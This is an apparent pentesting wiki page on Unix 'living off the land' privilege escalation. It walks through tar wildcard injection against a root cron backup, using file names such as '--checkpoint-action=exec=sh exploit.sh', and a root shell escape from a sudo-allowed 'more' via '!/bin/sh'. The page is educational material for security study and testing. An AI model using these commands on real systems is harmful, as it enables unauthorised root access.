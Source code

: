 ```yaml
---
authors: ShutdownRepo, p0dalirius
category: infra
---
```


# 🛠️ Living off the land

## Theory

Living of the Land is a well known privilege escalation technique, where an attacker will leverage binaries found on the attacked machine to perform a privilege escalation. Indeed, many UNIX programs have options that can be exploited to open a shell. Therefore if we can start the program we exploit as another user, we might be able to open a shell as this user ! 

Most of the payloads to do this on UNIX programs can be found on [gtfobins.github.io](https://gtfobins.github.io/).

## Practice

Here are two case study to better understand the principle of these privilege escalations :

### Case study 1 : Privesc using tar and a cronjob

Imagine a scenario where a script backups a directory (that we can control) on the server each hour using `tar` like this :

```
#!/bin/bash

mkdir -p /backups/
cd /var/www/html/ && tar cvzf /backups/backup_$(date +%Y_%m_%d_%Hh%M).tar.gz *
```

Notice this interesting pattern `tar czvf file.tar.gz *` in the script. This is a security vulnerability because of how UNIX shells handles wildcards. Let's see an example with the `ls` command :

```
$ ls -lha
total 84K
drwxrwxr-x 2 user user 4,0K avril 27 22:32 .
drwxrwxrwt 89 user user 76K avril 27 22:31 ..
-rw-rw-r-- 1 user user 0 avril 27 22:31 file1
-rw-rw-r-- 1 user user 0 avril 27 22:31 file2
-rw-rw-r-- 1 user user 0 avril 27 22:31 file3
$ ls *
file1 file2 file3

$ echo '' > '-lha'
$ ls -lha 
total 88K
drwxrwxr-x 2 user user 4,0K avril 27 22:32 .
drwxrwxrwt 89 user user 76K avril 27 22:31 ..
-rw-rw-r-- 1 user user 0 avril 27 22:31 file1
-rw-rw-r-- 1 user user 0 avril 27 22:31 file2
-rw-rw-r-- 1 user user 0 avril 27 22:31 file3
-rw-rw-r-- 1 user user 1 avril 27 22:32 -lha
$ ls *
-rw-rw-r-- 1 user user 0 avril 27 22:31 file1
-rw-rw-r-- 1 user user 0 avril 27 22:31 file2
-rw-rw-r-- 1 user user 0 avril 27 22:31 file3
```

The shell wildcards are resolved by the shell, and not by the command. This means filenames can be treated as options if they are starting with a `-`. In our previous example, we added a file called `-lha` into the folder. When we type `ls *`, the shell replaces the `*` by all matching files in the current directory, and therefore our command becomes `ls file1 file2 file3 -lha`. After the wildcard resolution, the shell executes the command with our options.

Now if we get back to our script creating a backup of a directory each our with `tar *`, we see that tar have legitimate options allowing execution of a program. You can find them here :

* [https://gtfobins.github.io/gtfobins/tar/#shell](https://gtfobins.github.io/gtfobins/tar/#shell)

To use these options in our exploit, we jut need to create these two files in our directory, as well as the `exploit.sh` file, containing the command we want to run when we trigger the execution :

```
echo '' > '--checkpoint=1'
echo '' > '--checkpoint-action=exec=sh exploit.sh'

$ ls -lha 
total 88K
drwxrwxr-x 2 user user 4,0K avril 27 22:32 .
drwxrwxrwt 89 user user 76K avril 27 22:31 ..
-rw-rw-r-- 1 user user 0 avril 27 22:31 file1
-rw-rw-r-- 1 user user 0 avril 27 22:31 file2
-rw-rw-r-- 1 user user 1 avril 27 22:31 '--checkpoint=1'
-rw-rw-r-- 1 user user 1 avril 27 22:32 '--checkpoint-action=exec=sh exploit.sh'
-rwxrwxrwx 1 user user 784 avril 27 22:32 exploit.sh
```

We are now ready ! We just need to wait until the directory is backup again, and it will trigger our payload and execute `exploit.sh` file!

### Case study 2 : Privesc using more and sudo

Let's take an example, with this `sudo` configuration :

```
$ sudo -l
[sudo] password for user: 
Matching Defaults entries for user on PC1:
 env_reset, mail_badpass,
 secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on PC1:
 (ALL : NOPASSWD) /usr/bin/more /var/log/apache2/access.log
```

In this case `user` can run the `more` command, but only to read a specific log file `/var/log/apache2/access.log` as `root` without password (`NOPASSWD` flag) : 

```
sudo -u root /usr/bin/more /var/log/apache2/access.log
```

You can assume this would be safe right ? Unfortunately, it's not. The `more` command has various useful options, one of them is `!`. When you're in `more` and you type an exclamation mark followed by the path to a binary file, you can execute it in a subprocess. For example if you type `!/bin/sh` in `more`, you will open a shell as the owner of the parent `more` process !

```
$ sudo -u root /usr/bin/more /var/log/apache2/access.log
File content line 1
File content line 2
...
File content line n
------------------------
!/bin/sh
# 
uid=0(root) gid=0(root) groups=0(root)
# 
```